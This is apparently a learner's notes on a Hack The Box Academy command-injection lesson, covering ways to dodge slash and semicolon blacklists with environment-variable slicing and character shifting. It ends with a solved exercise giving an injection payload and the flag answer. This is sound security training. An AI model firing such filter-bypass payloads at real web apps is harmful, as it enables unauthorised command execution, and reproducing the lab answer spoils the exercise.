 ﻿Besides injection operators and space characters, a very commonly blacklisted character is the slash (`/`) or backslash (`\`) character, as it is necessary to specify directories in Linux or Windows. We can utilize several techniques to produce any character we want while avoiding the use of blacklisted characters.

---

## Linux

There are many techniques we can utilize to have slashes in our payload. One such technique we can use for replacing slashes (`or any other character`) is through`Linux Environment Variables` like we did with`${IFS}`. While`${IFS}` is directly replaced with a space, there's no such environment variable for slashes or semi-colons. However, these characters may be used in an environment variable, and we can specify`start` and`length` of our string to exactly match this character.

For example, if we look at the`$PATH` environment variable in Linux, it may look something like the following:

```shell-session
smoothment@htb[/htb]$ echo ${PATH}

/usr/local/bin:/usr/bin:/bin:/usr/games
```

So, if we start at the`0` character, and only take a string of length`1`, we will end up with only the`/` character, which we can use in our payload:


```shell-session
smoothment@htb[/htb]$ echo ${PATH:0:1}

/
```

```ad-note
**Note:** When we use the above command in our payload, we will not add`echo`, as we are only using it in this case to show the outputted character.
```

We can do the same with the`$HOME` or`$PWD` environment variables as well. We can also use the same concept to get a semi-colon character, to be used as an injection operator. For example, the following command gives us a semi-colon:


```shell-session
smoothment@htb[/htb]$ echo ${LS_COLORS:10:1}

;
```

Exercise: Try to understand how the above command resulted in a semi-colon, and then use it in the payload to use it as an injection operator. Hint: The`printenv` command prints all environment variables in Linux, so you can look which ones may contain useful characters, and then try to reduce the string to that character only.

So, let's try to use environment variables to add a semi-colon and a space to our payload (`127.0.0.1${LS_COLORS:10:1}${IFS}`) as our payload, and see if we can bypass the filter: ![Filter Operator](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_spaces_5.jpg)

As we can see, we successfully bypassed the character filter this time as well.

---

## Windows

The same concept works on Windows as well. For example, to produce a slash in`Windows Command Line (CMD)`, we can`echo` a Windows variable (`%HOMEPATH%` ->`\Users\htb-student`), and then specify a starting position (`~6` ->`\htb-student`), and finally specifying a negative end position, which in this case is the length of the username`htb-student` (`-11` ->`\`) :

```cmd-session
C:\htb> echo %HOMEPATH:~6,-11%

\
```

We can achieve the same thing using the same variables in`Windows PowerShell`. With PowerShell, a word is considered an array, so we have to specify the index of the character we need. As we only need one character, we don't have to specify the start and end positions:

```powershell-session
PS C:\htb> $env:HOMEPATH[0]

\


PS C:\htb> $env:PROGRAMFILES[10]
PS C:\htb>
```

We can also use the`Get-ChildItem Env:` PowerShell command to print all environment variables and then pick one of them to produce a character we need.`Try to be creative and find different commands to produce similar characters.`

---

## Character Shifting

There are other techniques to produce the required characters without using them, like`shifting characters`. For example, the following Linux command shifts the character we pass by`1`. So, all we have to do is find the character in the ASCII table that is just before our needed character (we can get it with`man ascii`), then add it instead of`[` in the below example. This way, the last printed character would be the one we need:

```shell-session
smoothment@htb[/htb]$ man ascii # \ is on 92, before it is [ on 91
smoothment@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```

We can use PowerShell commands to achieve the same result in Windows, though they can be quite longer than the Linux ones.

Exercise: Try to use the the character shifting technique to produce a semi-colon`;` character. First find the character before it in the ascii table, and then use it in the above command.

# Question
---

![Pasted image 20250205141832.png](../../../../IMAGES/Pasted%20image%2020250205141832.png)

We can do the following payload:

```
127.0.0.1%0als${IFS}${PATH:0:1}home
```

```ad-important
#### Breakdown
---
### **Explanation**

1. **`%0a`**: New-line character to terminate the original command (e.g.,`ping 127.0.0.1`) and inject a new command.
 
2. **`ls`**: Command to list directories.
 
3. **`${IFS}`**: Replaces the space between`ls` and the directory path.
 
4. **`${PATH:0:1}`**: Extracts the first character (`/`) from the`PATH` environment variable.
 
5. **`home`**: Appended to`${PATH:0:1}` to form`/home`.
```

We'll see the following payload:

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.012 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.012/0.012/0.012/0.000 ms
1nj3c70r
```

Answer is `1nj3c70r`

